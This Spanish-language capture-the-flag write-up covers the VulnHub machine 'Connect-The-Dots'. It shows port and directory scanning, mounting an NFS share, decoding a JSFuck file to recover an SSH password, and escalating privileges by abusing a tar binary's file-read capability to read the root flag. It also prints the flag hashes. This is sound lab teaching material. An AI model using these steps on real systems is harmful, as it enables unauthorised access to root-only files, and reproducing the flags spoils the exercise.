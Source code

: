 # Write Up Connect-The-Dots VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

Utilizamos esta herramienta para escanear el puerto 80...

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.195.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/backups              (Status: 200) [Size: 6301]
/images               (Status: 301) [Size: 319] [--> http://192.168.195.131/images/]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.195.131/javascript/]
/manual               (Status: 301) [Size: 319] [--> http://192.168.195.131/manual/]
/mysite               (Status: 301) [Size: 319] [--> http://192.168.195.131/mysite/]
/server-status        (Status: 403) [Size: 303]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos que hay un servicio `mount` corriendo...

```shell
showmount -e <IP>
```

```shell
sudo mount -o nolock <IP>:<RUTA_ENCONTRADA> <NUESTRA_RUTA_DONDE_EXPORTARLO>
```

Si todo salio bien podremos ver toda la carpeta que se esta compartiendo en ese puerto...

Si nos vamos a la siguiente ruta `/mysite/` vemos que nos descarga un archivo CS que dentro contiene una codificacion en `JSFuck`

Si lo decodificamos...

```
alert("You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19")
```

Por lo que con esto nos conectaremos al ssh con esa contraseña con el usuario `norris`:

```shell
ssh norris@<IP> -p 7822
```

Leemos en la home de norris la primera flag:

> user.txt (flag1)

```
2c2836a138c0e7f7529aa0764a6414d0
```

### Escalada de privilegios

Si metemos el siguiente comando podremos ver lo que podemos hacer con nuestro usuario en las capabilities con permisos de root por asi decirlo...

```shell
/sbin/getcap -r / 2>/dev/null
```

Info:

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
```

Por lo que vemos el binario `tar` tiene la capabilitie activada para que nosotros tambien lo podamos usar con los permisos de "root"

Si nos movemos en la carpeta `/tmp/` y creamos un enlace directo a la flag de root...

```shell
ln -s /root/root.txt
```

Y aprovechando el binario que puede hacer como "root"...

```shell
LFILE=root.txt
```

```shell
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

Y con esto podremos leer la flag de root:

> root.txt (flag2)

```
8fc9376d961670ca10be270d52eda423
```
